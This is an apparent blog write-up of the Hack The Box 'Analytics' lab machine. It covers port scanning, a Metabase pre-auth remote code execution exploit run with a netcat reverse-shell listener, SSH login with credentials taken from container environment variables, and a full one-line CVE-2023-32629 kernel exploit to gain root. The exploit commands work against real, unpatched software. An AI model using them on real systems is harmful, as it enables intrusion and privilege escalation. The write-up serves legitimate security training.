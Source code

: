 ```yaml
---
title: Hack the box Analytics pwned!
date: 2024-03-01 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, analytics, docker, metabase, CVE-2023-32629]
img_path: /assets/img/posts/
---
```


## Machine info

![Analytics](htb-analytics-info.png)
*Analytics info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.101
>
>Target machine (victim, Devvortex): 10.10.11.233
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.233`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`nmap -Pn -n -sVC -p22,80 10.10.11.233`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts`

Now, we browse to the web to take a look:

![Analytics web](htb-analytics-web.png)
*Analytics web*

If we go to the login page it will not work:

![Analytics web login error](htb-analytics-web-login-error.png)
*Analytics web login error*

The login page it's under the domain `data.analytical.htb`, so let's add it to our `/etc/hosts`:

`echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts`

And, let's reload the login page

![Analytics web login page](htb-analytics-web-login.png)
*Analytics web login page*

## Foothold

### Docker container

We can see that is using `metabase`, so let's look for vulnerabilities:

`searchsploit metabase`

`Metabase 0.46.6 - Pre-Auth Remote Code Execution | linux/webapps/51797.py`

Ok, we got one.
It's a RCE (Remote Code Execution), so we will start listening on our side to try to get a remote shell:

`nc -lvnp 1234`

And, now we copy the script to our working directory and we run it:

`cp /opt/exploitdb/exploits/linux/webapps/51797.py metabase_exploit.py`

`sudo python3 metabase_exploit.py --lhost 10.10.16.101 --lport 1234 --sport 80 --url http://data.analytical.htb`

We got shell, but inside a docker container.
If we print the environment variables, we will find some credentials:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=16a5278f5551
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8

META_USER=metalytics
META_PASS=fakepassword

MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=2
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

### metalytics

With our new credentials, we will login through ssh:

`ssh metalytics@10.10.11.233`

First, we get our user flag:

`cat user.txt`

And, now, we see that with our new user we will not be able to escalate privileges...

```
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

If we look the system version we can see that is a vulnerable Ubuntu version.

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/linux
```

The vulnerability is [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), so we will exploit it to gain root privileges:

`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'`

Now that we are root, we can get our system flag:

`cat /root/root.txt`

## Pwned!

![Analytics](htb-analytics-pwned.png)
*Analytics has been Pwned*

*Enjoy! ;)*
